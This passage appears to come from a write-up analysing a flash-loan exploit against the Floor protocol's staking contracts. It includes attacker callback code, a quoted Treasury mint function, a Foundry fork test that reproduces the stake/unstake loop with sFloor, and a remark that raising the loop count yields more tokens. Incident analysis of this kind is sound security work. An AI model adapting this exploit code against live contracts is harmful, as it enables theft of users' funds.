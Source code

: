 ```solidity
function uniswapV3SwapCallback(int256 /*amount0Delta*/, int256 amount1Delta, bytes calldata /*data*/) external {
    int256 amount = amount1Delta;
    if (amount <= 0) {
        amount = 0 - amount;
    }
    floor.transfer(msg.sender, uint256(amount));
}
```

In the `flash` callback, the specific attack process is executed. Here, the attacker sets the `stake/unstake` loop to run 17 times, which can actually be increased to obtain more Floor tokens. However, if too many loops are executed, an error "Treasury: insufficient reserves" will occur during the `mint` operation.

```solidity
/**
* @notice mint new FLOOR using excess reserves
* @param _recipient address
* @param _amount uint256
*/
function mint(address _recipient, uint256 _amount) external override {
    require(permissions[STATUS.REWARDMANAGER][msg.sender], notApproved);
    require(_amount <= excessReserves(), insufficientReserves);
    FLOOR.mint(_recipient, _amount);
    emit Minted(msg.sender, _recipient, _amount);
}
```

This involves the `mint` function called in the Treasury contract after the distributor. We won't delve into this here.

Finally, the attacker removes the flash loan fees and gains approximately 14.6k Floor tokens, which are then exchanged for about 40 WETH.

For the `stake` operation, gFloor tokens are chosen, but sFloor tokens can also be chosen, as shown below:

```solidity
function testsFloor() external {
    uint attackBlockNumber = 18068772;
    vm.rollFork(attackBlockNumber);

    deal(address(floor), address(this), 152_000 * 10**9);

    uint balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Initial attacker floor", balanceAttacker, floor.decimals());

    floor.approve(address(staking), type(uint256).max);
    sFloor.approve(address(staking), type(uint256).max);

    staking.stake(address(this), balanceAttacker, true, true);  // get sFloor
    uint sFloorBalance = sFloor.balanceOf(address(this));
    
    // uint gFloorBalance = staking.wrap(address(this), sFloorBalance);
    // staking.unstake(address(this), gFloorBalance, true, false);  // unstake by gFloor
    staking.unstake(address(this), sFloorBalance, true, true);  // unstake by sFloor

    balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Finally attacker floor", balanceAttacker, floor.decimals());
    emit log_named_decimal_uint("Finally attacker sFloor", sFloor.balanceOf(address(this)), sFloor.decimals());
}
```
